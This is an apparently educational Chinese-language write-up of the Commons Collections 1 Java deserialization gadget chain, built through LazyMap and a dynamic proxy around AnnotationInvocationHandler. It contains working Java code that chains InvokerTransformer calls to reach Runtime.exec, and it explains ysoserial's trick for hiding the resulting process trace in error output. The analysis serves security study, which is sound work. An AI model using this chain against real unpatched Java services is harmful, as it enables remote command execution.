









# CommonsCollections1 - LazyMap

## 0x01 LazyMap是什么？& 引出动态代理

前文分析了通过 `TransformedMap` 构造 payload 的方式，接下来分析 ysoserial 中使用的`LazyMap` 。 `LazyMap.get()` 方法在 key 不存在时会调用  `transform()`。



还是上一篇文章介绍的 `sun.reflect.annotation.AnnotationInvocationHandler` 类的 `Invoke()` 方法中调用了，通过 `memberValues` 对象调用了 `get()` 方法。



`invoke()` 方法是不是很熟悉，`AnnotationInvocationHandler` 类实现了 `InvocationHandler` 接口，这条链正是对于动态代理的运用。

如果我们将 `AnnotationInvocationHandler` 这个类包装为 `Proxy` ，那么在调用 `readObject()` 时，因为调用了这个类的方法，就会进入 `invoke()` 方法，最终也就串联起了 chain。



## 0x02 LazyMap构造

在之前分析 `TransformedMap` 的基础上进行改写为 `LazyMap` 方式

```java
HashMap map = new HashMap();
Map lazyMap =  LazyMap.decorate(map, chainedTransformer);
```

首先还是构造一个 `AnnotationInvocationHandler` 对象封装 LazyMap，然后创建动态代理实例。

```java
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
```

动态代理实例 `proxyMap` 还需要一个存在 `readObject()` 方法的 kick-off 来触发反序列化，CC1 这条链直接用的 `AnnotationInvocationHandler` 触发。

```java
invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
```

最终形成

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class}, execArgs)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

//        chainedTransformer.transform(null);
        HashMap map = new HashMap();
        Map lazyMap =  LazyMap.decorate(map, chainedTransformer);

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
        
				Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
        invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
```

Idea 调试时，把 `toString()` 关了，避免触发到动态代理造成意外的执行。



## 0x03 ysoserial 还做了什么？

在上述payload中，虽然成功执行了命令，但报错信息中存在 `java.lang.UNIXProcess` 字样



ysoserial在构造 `Transformer[]` 时，结尾添加了一个 `new ConstantTransformer(1)` ，报错信息中就可以将这部分信息隐藏。





并且在返回前才将有威胁的 `Transformer[]` 通过反射写入 `transformerChain`，避免在生成时调用如 `toString()` 等触发命令（动态代理会代理从Object继承来的方法）。



## 0x04 CC1总结

分析完 CC1 的两种利用方式，本质上的利用方式区别不大。而在分析CC1漏洞时，特意选用了小于 8u71 的jdk版本，是因为后续 [补丁](https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/f8a528d0379d) 中 AnnotationInvocationHandler 新增了一个 `LinkedHashMap` ，对 Map 的操作都基于这个新对象，因此我们传入的 Map 都无法直接执行 set、get 方法，后续分析中将继续改造调用链实现更高 JDK 版本的利用。



